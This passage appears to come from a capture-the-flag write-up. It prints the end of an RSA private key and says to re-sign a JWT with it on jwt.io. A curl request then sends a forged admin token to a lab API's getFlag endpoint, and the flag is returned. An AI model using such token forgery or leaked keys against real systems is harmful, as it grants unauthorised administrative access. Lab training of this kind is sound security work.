 	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
	-----END RSA PRIVATE KEY-----

Copy paste it to jwt.io application and after that copy new authorization token. And now call for flag:

	└─$ curl -H "Authorization: Bearer eyJhbGciOiJSUzM4NCIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk4MzYzMzg1LCJpYXQiOjE2OTc2NzIxODUsInN1YiI6IjEiLCJhZG1pbiI6dHJ1ZSwiZmxhZy1yZWFkIjp0cnVlLCJndWlkIjoiYjBkM2QzNDktMTVhMy00ZmI3LWEzN2UtYmFmNjQ1ZjViYWEyIn0.TGqeovuobwkuT35JFBix6IjvIPgncfbHZld3EKAwAnIinrvhnocqW1J8b1rKF8Po-GoJKaWlh_bZY_cFsFEG6_x2qeep23406R0JHZe23hfVzSb4y3dKFb6EFjXN7Wvudc69_Z72FpClgCyvaJSKupVVC4DSN9mgMKac_SERtTQ3Sq-1M1MyicsUXMsveDQyqKBasfli0dI_YxqNNlkG5R5Sq9iZgH7B9qTqgFl6tHk0_tKFz7L2LFvmgsdtnYdsWLvD27v9lVQY8u5DNXLYspRglyOn_tIVTZITwiKWjGlyQfe5w12nFvz70f7hD851XMJVirQ2mnlxc0h7ni_QaOIYqySXq-x2xp38Rjfk6Fz5Tkm0Xgz1FdH2iQjbhfMJMr_6KTQZJ-dTTSSgE2xJUQjAz8Wnv-ypzrSb231ZQFoUZpoTQW3b2pOPM2x2W0ZTufdHZlaR5tPPmrMb7MGWtLjGlB_NZv7ulSETqoSzquytPSU_Mhf3wX0d5rukTdETwMGXGoraj9ynColJPGadMpBUaHiSw0A2-Kvw2eX3TzWOQS95QfRZQ2ARRtWfmGd7hAWG1XL4unB6vmIgYiJyQ6qNshwyF-LPVZQnttbBC20wq98yKJBs79hpYTML7CmpjXLajJzLJw2xzoKXveWCOD7d2L7PwmtYSUkW-D3sIhQ" -XPUT http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag
	{"Flag":"FLAG{910P-iUeJ-Wwq1-i8L2}"}  